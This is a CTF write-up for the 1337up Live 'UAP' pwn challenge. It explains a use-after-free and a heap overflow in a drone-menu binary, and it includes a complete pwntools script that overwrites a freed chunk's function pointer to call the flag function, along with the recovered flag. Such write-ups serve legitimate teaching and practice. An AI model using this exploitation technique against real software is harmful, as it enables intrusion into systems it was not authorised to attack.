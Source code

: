 You can download challenge in [here](https://github.com/q11N9/CTF_Writeups/blob/main/CTFpwn/1337up-live-ctf/pwn/UAP/uap.zip). 

The program prints out a menu to control the drone: 

![image](https://hackmd.io/_uploads/H1JDdXBzyg.png)

- **deploy_drone()**:

![image](https://hackmd.io/_uploads/B1qd_XHzyg.png)

The function will malloc a chunk of size 0x30 (including metadata), with ready status and **start_route** and **end_route**

- **retire_drone()**:

![image](https://hackmd.io/_uploads/rkE5OQrzye.png)

When the function will free the memory of a drone, use the **end_route()** function to free:

![image](https://hackmd.io/_uploads/Sy9ZtmHM1x.png)

We have a UAF bug here.


- **start_drone_route()**:

![image](https://hackmd.io/_uploads/rk4hdQSzkg.png)

The function just prints out the current route of the drone using the **start_route()** function:

![image](https://hackmd.io/_uploads/ByYkKmrfJe.png)

- Hàm **enter_drone_route()**:

![image](https://hackmd.io/_uploads/By_pdXBMJe.png)

The function will malloc with size 0x30 and let us enter data. But here it lets us enter 89 bytes, when the chunk size is only 48 bytes. So we have a buffer overflow bug here.

- **print_drone_manual()** gives us flag:

![image](https://hackmd.io/_uploads/H1KLF7SGyl.png)

When debugging in gdb, we will see the structure of a drone after free will be as follows:

![image](https://hackmd.io/_uploads/rk7fqFBGJg.png)
![image](https://hackmd.io/_uploads/HkiG5YSGkg.png)
![image](https://hackmd.io/_uploads/SJtVcFSfyx.png)

In turn, it will be id -> status->start_route -> end_route.
Let's try to insert 89 characters into a drone and let it start the route:

![image](https://hackmd.io/_uploads/r1uPN9Bzyg.png)

![image](https://hackmd.io/_uploads/Sk_LE5SGyl.png)

There is a call to rax, but our rax is now like this:

![image](https://hackmd.io/_uploads/Bkf_N9HzJg.png)

If we calculate according to the offset of the payload, the called address will have a padding of 16. So we will have the following script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./drone_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("uap.ctf.intigriti.io", 1340)

    return r


def main():
    r = conn()
    input()
    # good luck pwning :)
    # Create drone
    r.sendline(b'1')
    pause()
    # Retire Drone
    r.sendline(b'2')
    r.sendline(b'1')
    r.recvline()
    pause()
    # Edit data in freed drone
    r.sendline(b'4')
    r.sendline(b'A'* 16 + p64(0x400836))
    pause()
    # Start its route to trigger
    r.sendline(b'3')
    r.sendline(b'1')
    pause()
    r.interactive()


if __name__ == "__main__":
    main()

```
Run on local: 

![image](https://hackmd.io/_uploads/Hk6CVcBGyx.png)

Run on server: 

![image](https://hackmd.io/_uploads/S1GgScrfkl.png)

Flag: ```INTIGRITI{un1d3n71f13d_fly1n6_vuln3r4b1l17y}```
